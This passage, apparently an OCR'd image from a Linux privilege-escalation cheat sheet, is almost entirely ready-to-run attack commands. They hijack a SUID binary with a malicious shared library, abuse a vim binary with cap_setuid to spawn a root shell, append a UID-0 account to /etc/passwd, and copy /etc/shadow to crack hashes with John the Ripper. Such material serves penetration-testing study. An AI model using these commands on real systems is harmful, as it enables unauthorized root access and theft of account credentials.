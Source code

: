 ```bash

# 2. Compile it
gcc -shared -fPIC -o /path/to/writable/dir/hijacked.so /path/to/writable/dir/hijacked.so.c

# 3. Run the SUID binary (will load your malicious library)
/path/to/suid-binary
```

#### Capabilities Escalation
```bash
# Identification: Search for binaries with capabilities set
getcap -r / 2>/dev/null
// cap_setuid+ep

# --- Exploitation: If set, use it to become root ---

# vim example
vim -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "bash", "-p")'
```

#### Writable System Files
```bash
# Exploitation (/etc/passwd):
# 1. Generate password hash for new root user
openssl passwd -1 -salt <USERNAME> <PASSWORD>

# 2. Add new user with UID 0 to /etc/passwd
echo 'newroot:<HASH_HERE>:0:0:root:/root:/bin/bash' >> /etc/passwd

# 3. Log in
su newroot

# Exploitation (/etc/shadow):
# 1. Generate SHA-512 hash for root user
openssl passwd -6 <PASSWORD>

# 2. Replace root hash in /etc/shadow (requires write method)
```

#### Readable /etc/shadow
```bash
# Identification: Check if /etc/shadow is world-readable
ls -la /etc/shadow

# Exploitation:
# 1. Copy passwd and shadow files
cp /etc/passwd .
cp /etc/shadow .

# 2. Combine for John the Ripper
unshadow passwd shadow > hashes.txt

# 3. Crack the hashes
john --wordlist=/usr/share/wordlists/rockyou.txt --output=jonh_cracked_hashes.txt hashes.txt
```
